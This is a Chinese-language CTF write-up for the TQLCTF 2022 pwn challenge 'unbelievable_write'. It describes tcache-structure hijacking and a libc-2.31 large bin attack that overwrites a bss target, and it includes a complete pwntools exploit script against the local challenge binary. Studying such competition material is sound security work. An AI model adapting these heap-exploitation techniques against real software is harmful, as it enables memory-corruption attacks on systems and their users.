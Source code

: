 ```yaml
---
layout: article
pageview: true
key: 2022-03-07-TQLCTF2022-pwn-wp
title: TQLCTF2022Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


<!--more-->

## unbelievable_write

只要修改`bss`段上`target`值就能拿`flag`，还提供了一次堆上任意地址释放的功能，难点在于申请的堆块在写入后会被立即释放。

由于题目环境是`libc-2.31`，我们考虑`large bin attack`，先释放并劫持`tcache`结构体使得我们可以控制申请到的堆快的位置，修改`counts`使得我们可以直接申请到`unsoted bin`，此时我们就可以根据`2.31 large bin attack`的顺序修改并拿到flag了。

需要注意的是，由于题目申请后立即释放堆快的特性，我们需要在劫持`tcache`结构体前布置好需要用到的堆快（一个0x400和0x3f0的堆快用于制作`large bin`，一个0xa0的堆快用于修改`bk_nextsize`）。

题目在输出时会申请一个0x400大小的堆快，如果在我们`large bin attack`后申请这个堆快会使得程序崩溃拿不到`flag`，我们可以提前触发这个输出，副作用是使得0xa0大小的堆快重新申请时地址不固定，需要`1/16`的概率去爆破。


```python
from pwn import *
context(arch='amd64',log_level='debug')
context.terminal=['tmux','splitw','-h']
p=process('./pwn1')
elf=ELF('./pwn1')

def c1(size,con):
    p.sendlineafter('>','1')
    p.sendline(str(size))
    p.send(con)

def c2(off):
    p.sendlineafter('>','2')
    p.sendline(str(off))

def c3():
    p.sendlineafter('>','3')

target=0x404080
golden=target+0x8
ptr=0x4052a0
heap_base=0x405000

p.sendline('a')
c1(0xa0,p64(0)*0x5+p64(0xb1)+b'\n')
c1(0x400,b'\n')
c1(0x20,b'\n')
c1(0x3f0,b'\n')
c1(0x30,b'\n')

c2(-0x290)

c1(0x280,p16(0)*9+p16(1)+p16(0)*0x1d+p16(0)+p16(0)*0x16+p16(0x9)*2+p64(0)*9+b'\x00\xa7'+b'\n')
c1(0x400,b'\n')

c1(0x500,b'\n')
c1(0x3f0,b'\n')
c1(0xa0,p64(0)*15+p64(0x411)+p64(target+0x100)*3+p64(target-0x20))
c1(0x500,b'\n')

c3()
p.interactive()
```